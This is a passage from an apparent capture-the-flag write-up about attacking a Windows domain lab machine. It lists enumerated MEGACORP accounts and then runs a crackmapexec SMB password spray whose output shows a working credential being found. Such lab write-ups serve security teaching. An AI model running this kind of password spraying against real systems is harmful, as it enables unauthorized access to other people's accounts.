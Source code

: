     [+] Found account [03111]  MEGACORP\alyx                               
    [+] Found account [03112]  MEGACORP\ilee                               
    [+] Found account [03113]  MEGACORP\nbourne                              
    [+] Found account [03114]  MEGACORP\zpowers                              
    [+] Found account [03115]  MEGACORP\aldom                              
    [+] Found account [03116]  MEGACORP\jsmmons                              
    [+] Found account [03117]  MEGACORP\pmartin                              
    [+] Found account [03119]  MEGACORP\Developers
    

### Test Passwords with Domain Users

I added all these users to a file and went back to `crackmapexec` to check if
the passwords I already have work with any of these users:

    
    
    root@kali# crackmapexec smb 10.10.10.179 -u dom_users -p passwords --continue-on-success
    SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP) (signing:True) (SMBv1:True)
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\MULTIMASTER$:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\MULTIMASTER$:finance1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\MULTIMASTER$:banking1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsAdmins:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsAdmins:finance1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsAdmins:banking1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsUpdateProxy:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsUpdateProxy:finance1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsUpdateProxy:banking1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\svc-nas:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\svc-nas:finance1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\svc-nas:banking1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\Privileged IT Accounts:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\Privileged IT Accounts:finance1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\Privileged IT Accounts:banking1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\tushikikatomo:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP\tushikikatomo:finance1 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\tushikikatomo:banking1 STATUS_ACCESS_DENIED 
    ...[snip]...
    